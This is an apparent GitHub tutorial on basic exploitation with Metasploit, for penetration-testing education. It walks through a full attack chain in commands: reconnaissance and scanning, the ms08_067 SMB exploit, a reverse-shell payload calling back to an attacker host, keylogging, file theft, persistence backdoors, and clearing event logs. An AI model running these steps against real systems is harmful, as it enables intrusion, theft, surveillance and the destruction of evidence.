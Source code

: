 # Basic Exploitation Techniques

## Introduction
Exploitation is a critical phase in penetration testing where vulnerabilities are leveraged to gain control over a target system. This guide covers fundamental exploitation techniques, including reconnaissance, vulnerability identification, and executing exploits using Metasploit.

## Table of Contents
- [Reconnaissance](#reconnaissance)
- [Vulnerability Scanning](#vulnerability-scanning)
- [Exploit Selection](#exploit-selection)
- [Payload Deployment](#payload-deployment)
- [Post-Exploitation](#post-exploitation)
- [Maintaining Access](#maintaining-access)
- [Clearing Tracks](#clearing-tracks)
- [Conclusion](#conclusion)

## Reconnaissance
The first step in exploitation is gathering information about the target system. This helps in identifying potential vulnerabilities that can be exploited.

### Passive Reconnaissance
- **WHOIS lookup:** Retrieves domain registration information.
  ```bash
  whois example.com
  ```
- **DNS enumeration:** Finds subdomains and domain records.
  ```bash
  dig example.com axfr
  ```
- **Google dorking:** Uses search engine queries to find sensitive information.
  ```bash
  site:example.com inurl:login
  ```

### Active Reconnaissance
- **Nmap scanning:** Identifies open ports and services.
  ```bash
  nmap -sV -p- 192.168.1.10
  ```
- **Service enumeration:** Gathers information on running services and potential vulnerabilities.
  ```bash
  nmap -sC -sV --script=vuln 192.168.1.10
  ```

## Vulnerability Scanning
Identifying known vulnerabilities in services running on the target system.

- **Nessus Scan:** Commercial scanner with advanced vulnerability detection.
- **OpenVAS:** Open-source alternative for vulnerability assessment.
- **Metasploit Auxiliary Modules:**
  ```bash
  use auxiliary/scanner/http/http_version
  set RHOSTS 192.168.1.10
  run
  ```
  This will scan the HTTP service version on the target.

## Exploit Selection
After identifying vulnerabilities, choose an appropriate exploit from Metasploit.

1. **Search for a vulnerability:**
   ```bash
   search smb
   ```
   This command searches for available SMB exploits.
2. **Select an exploit:**
   ```bash
   use exploit/windows/smb/ms08_067_netapi
   ```
   This selects the infamous SMB exploit for Windows.
3. **Display required options:**
   ```bash
   show options
   ```
   This lists configurable parameters before executing the exploit.

## Payload Deployment
Payloads determine the post-exploitation behavior after a successful exploit.

- **Reverse Shell:** Opens a shell on the target and connects back to the attacker.
  ```bash
  set payload windows/meterpreter/reverse_tcp
  set LHOST 192.168.1.100
  set LPORT 4444
  ```
- **Execute exploit:**
  ```bash
  exploit
  ```
  If successful, this grants a shell on the target system.

## Post-Exploitation
Once the target is compromised, further actions can be performed:

- **Privilege Escalation:** Identifies and exploits privilege escalation vulnerabilities.
  ```bash
  use post/multi/recon/local_exploit_suggester
  set SESSION 1
  run
  ```
- **Data Extraction:** Retrieves sensitive files from the target system.
  ```bash
  download C:\Users\Admin\Documents\sensitive_file.txt
  ```
- **Keylogging:** Captures keystrokes from the compromised machine.
  ```bash
  run post/windows/capture/keylog_recorder
  ```

## Maintaining Access
To retain control over the system:

- **Persistence:** Installs a backdoor to ensure access remains even after reboots.
  ```bash
  run persistence -U -i 5 -p 4444 -r 192.168.1.100
  ```
- **Backdoor Creation:** Automates backdoor persistence.
  ```bash
  use exploit/windows/local/persistence
  ```

## Clearing Tracks
Before leaving a compromised system, it is crucial to remove traces:

- **Clear logs:** Removes Windows event logs to hide malicious activity.
  ```bash
  clearev
  ```
- **Remove artifacts:** Deletes exploit files from the target system.
  ```bash
  rm C:\Windows\Temp\exploit.exe
  ```

## Conclusion
Understanding basic exploitation techniques is essential for ethical hacking and penetration testing. By mastering reconnaissance, vulnerability scanning, exploit execution, and post-exploitation, security professionals can identify and mitigate real-world threats effectively.

_For further reading, refer to the [Metasploit Unleashed Guide](https://www.offensive-security.com/metasploit-unleashed/)._

